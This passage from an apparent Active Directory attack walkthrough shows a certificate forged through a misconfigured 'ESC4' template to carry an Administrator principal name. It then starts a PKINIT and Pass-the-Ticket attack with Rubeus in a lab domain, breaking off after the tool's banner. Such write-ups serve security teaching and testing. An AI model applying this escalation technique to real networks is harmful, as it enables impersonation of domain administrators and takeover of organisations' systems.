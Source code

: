 ```
  Name Hash(sha1): ab3a6d03e2da521aacc5f2712287ef271ffd5a87
  Name Hash(md5): 800c927fb83466c80ce5466c127853e6

 NotBefore: 9/30/2021 10:12 PM
 NotAfter: 9/30/2022 10:12 PM

Subject:
    CN=David
    CN=Users
    DC=contoso
    DC=local
  Name Hash(sha1): e85f67a4aeba2f218a32cf2c4ffb8c69738dfaf0
  Name Hash(md5): ec9d5e57fde746eebe0999705918d24d

--snip--

Certificate Extensions: 10
    1.3.6.1.4.1.311.21.7: Flags = 0, Length = 30
    Certificate Template Information
        Template=ESC4(1.3.6.1.4.1.311.21.8.15030743.11787675.8208785.16745297.429065.235.12902112.16100058)
        Major Version Number=100
        Minor Version Number=4

    2.5.29.37: Flags = 0, Length = c
    Enhanced Key Usage
        Client Authentication (1.3.6.1.5.5.7.3.2)

--snip--

    2.5.29.17: Flags = 0, Length = 2f
    Subject Alternative Name
        Other Name:
             Principal Name=Administrator@contoso.local

--snip--
```

Finally, we perform PKINIT Kerberos authentication and Pass-the-Ticket attack with the generated pfx file:

```
C:\Tools>whoami /user

USER INFORMATION
----------------

User Name     SID
============= =============================================
contoso\david S-1-5-21-3654360273-254804765-2004310818-1104

C:\Tools>dir \\dc01.contoso.local\C$
Access is denied.

C:\Tools>Rubeus.exe purge

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0
```